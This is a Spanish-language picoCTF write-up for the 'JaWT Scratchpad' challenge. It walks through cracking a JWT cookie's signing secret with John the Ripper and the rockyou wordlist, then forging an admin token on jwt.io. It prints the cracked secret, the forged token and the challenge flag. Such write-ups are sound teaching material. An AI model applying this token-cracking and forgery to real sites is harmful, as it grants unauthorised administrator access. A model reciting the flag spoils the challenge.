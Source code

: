 ## Reto:  JaWT Scratchpad
### Descripción
¡Comprueba el scratchpad de administrador! `https://jupiter.challenges.picoctf.org/problem/61864/` o http://jupiter.challenges.picoctf.org:61864
### Solución
Primero abrimos la pagina que nos proporciona `PicoCTF`
Vemos que podemos registrarnos con cualquier nombre, menos el de `admin`, esto por que la contraseña que esta acorde con el nombre de usuario registrado para administrador no esta ligado con la que tenemos actualmente.
- Primero nos logueamos con cualquier nombre para generar la `cookie`
- Copiamos la `cookie` generada
- Entramos a nuestra terminal de `Kali`
- Ingresamos a la siguiente dirección
```shell
cd /usr/share/wordlists/
```
En esta dirección encontramos el archivo `rockdeyou.txt.gz` que nos servirá para encontrar la contraseña de la `cookie` de `admin`.
- Descomprimimos el archivo con el siguiente comando:
```shell
gzip -d rockyou.txt.gz
```
- Ahora creamos el archivo donde se almacenara la cookie:
```shell
nano eltoken
```
Abrirá un documento editable, en el cual pegaremos la cookie, guardaremos con `ctrl + o` y saldremos con `ctrl + x`.
- Ahora el siguiente comando nos dará la contraseña ligada al `username` de la `cookie`:
```shell
john eltoken -w=/usr/share/wordlists/rockyou.txt
```
Y nos da la contraseña ligada:
```cookie
ilovepico
```
Entramos a la siguiente direccion
```http
https://jwt.io/
```
Ahora en esa pagina editamos el username de nuestro nombre por el de admin:
```http
{
  "user": "admin"
}
```
Y pegamos la contraseña por `ilovepico`
Volvemos a la pagina del ejercicio y en la cookie pegamos la cookie que nos dio en el jwt.
```c
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
Ahora recargamos la pagina y esto nos regresara la cookie:
```flag
picoCTF{jawt_was_just_what_you_thought_1ca14548}
```


### Notas adicionales
### Referencias

